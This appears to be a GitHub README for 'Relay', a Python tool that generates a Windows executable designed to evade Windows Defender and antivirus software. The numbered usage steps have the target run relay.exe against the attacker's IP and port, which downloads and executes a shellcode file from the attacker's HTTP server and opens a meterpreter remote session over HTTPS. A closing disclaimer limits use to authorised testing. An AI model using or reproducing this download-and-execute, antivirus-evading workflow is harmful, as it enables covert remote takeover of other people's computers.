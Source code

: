 # Script Name

Script Name: **Relay**

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

## Features

- Bypasses Windows Defender: The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script: `python3 relay.py` and follow the on-screen instructions.
2. Enter your IP address and port, when prompted.
3. The script will generate the `beacon.bin` and an executable file named `relay.exe`.
4. On the attacker machine, navigate to the directory containing `beacon.bin`.
5. Start a simple HTTP server using the command: `python3 -m http.server`.
6. Transfer the `relay.exe` file to the target system.
7. On the target system, open a command prompt and navigate to the directory containing `relay.exe`.
8. Run the following command: `relay.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).
